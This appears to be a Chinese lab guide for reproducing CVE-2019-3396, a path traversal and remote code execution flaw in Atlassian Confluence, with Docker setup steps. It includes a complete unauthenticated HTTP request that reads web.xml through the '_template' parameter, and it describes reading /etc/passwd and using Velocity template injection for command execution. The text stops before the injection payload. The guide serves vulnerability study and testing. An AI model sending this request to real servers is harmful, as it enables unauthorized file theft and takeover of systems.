

Atlassian Confluence 路径穿越导致远程代码执行漏洞（CVE-2019-3396）¶
Atlassian Confluence是企业广泛使用的wiki系统，其6.14.2版本前存在一处未授权的目录穿越漏洞，通过该漏洞，攻击者可以读取任意文件，或利用Velocity模板注入执行任意命令。
参考资料：
环境搭建¶
执行如下命令启动一个Confluence Server 6.10.2：
docker compose up -d
环境启动后，访问http://your-ip:8090会进入安装引导，选择“Trial installation”，之后会要求填写license key。点击“Get an evaluation license”，去Atlassian官方申请一个Confluence Server的测试证书：

然后点击Next安装即可。这一步小内存VPS可能安装失败或时间较长（建议使用4G内存以上的机器进行安装与测试），请耐心等待。
如果提示填写cluster node，路径填写/home/confluence即可：

后续可能要求你填写数据库账号密码，选择postgres数据库，地址为db，账号密码均为postgres：

漏洞复现¶
发送如下数据包，即可读取文件web.xml：
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://localhost:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176
{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"../web.xml"}}}

6.12以前的Confluence没有限制文件读取的协议和路径，我们可以使用file:///etc/passwd来读取文件，也可以通过https://...来加载远程文件。
该文件是一个Velocity模板，我们可以通过模板注入（SSTI）来执行任意命令：